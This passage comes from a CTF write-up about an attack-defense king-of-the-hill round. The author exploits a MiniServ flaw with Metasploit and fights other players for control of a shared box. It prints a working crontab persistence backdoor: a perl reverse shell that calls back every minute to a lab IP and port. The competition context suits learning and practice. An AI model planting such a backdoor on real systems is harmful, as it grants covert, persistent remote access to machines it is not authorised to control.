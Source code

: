 However, as this is attack defense, with every player sharing the same `AboutFace` machine, players can patch vulnerabilities and given `root` permissions, could just nuke the whole box. It was quite interesting what events unfolded.

## Attack Defense

`Eth007` first got access on the box and patched the MiniServ vulnerability, as well as getting the first KOTH flag. Upon the vulnerability being patched, no other players could access the machine, so they were KOTH for the first round. Same thing happened for the second round, and `Eth007` also got the second KOTH flag.

As for the third (or fourth?) round, the machine was reset and I was able to exploit the vulnerability and access the machine. However, unfortunetely at that time the bot sending the alive pings and the flag died, so the flag was never sent. Since I was listening for the flag, the organiser (`Nate Singer (Helix)`) just DM'ed me the flag.

Afterwards, many players had gained access to the `AboutFace` box and were already implementing their countermeasures to prevent other players from accessing the box. For example, shells and processes were being killed, but in particular at one point, someone decided to entirely delete the `netcat` binary! Furthermore, the `perl` command was replaced with something else like `cat`.

This killed my backdoor which I implemented with `crontab`, having a reverse shell sent to a specific port to my IP every minute, since my reverse shell used `perl`. I only figured this out after my shells were killed, and after trying to exploit `MiniServ` (which was the initial access) didn't work. I was using Metasploit, which failed to exploit as it said the server wasn't vulnerable. However, this meant it didn't even try the exploit - it just said it wasn't vulnerable. After setting an option in Metasploit, it surprisingly worked and I get my shell back!

{{< image src="./img/box7.png" alt="" position="center" style="border-radius: 5px; width: 100%;" >}}

Confirming that `perl` command didn't work anymore, I hurry to put a new backdoor before I'm kicked out again. Checking `/usr/bin` I can see the `perl` binary is still there, so I can still run it with `/usr/bin/perl`. And thus, I edited my crontab backdoor, which finally worked!

```
echo '* * * * * /usr/bin/perl -MIO -e "\$p=fork;exit,if(\$p);\$c=new IO::Socket::INET(PeerAddr,\"10.128.0.2:17893\");STDIN->fdopen(\$c,r);\$~->fdopen(\$c,w);system\$_ while<>"' | crontab -
```

A short while after I got locked out of initial access, the backdoor proved to come in clutch as it gave me access right back after being locked out.

But then suddenly, after the box was reset and many players gained access, while waiting for the flag, the box died. The box continued to stay offline for the remainder of the competitions, with noone recieving the 6th, 7th or 8th flag. Not sure what caused the box to crash, maybe someone ran `shutdown`, we all had root permissions after all.

# Conclusion

You made it to the end! Hope you enjoyed the writeups, if there's anything I missed or suggestions please let me know on discord or elsewhere. This was my first time doing anything related to Attack Defense in a CTF so it was quite interesting, and I look forward to next year's competition!

Oh, and, huge thanks to [`Nate Singer (helix)`](https://www.youtube.com/channel/UC1yduXnGCQ6qJW9O7QMVN7w) for organising the competition as well as address all the issues with challenges!
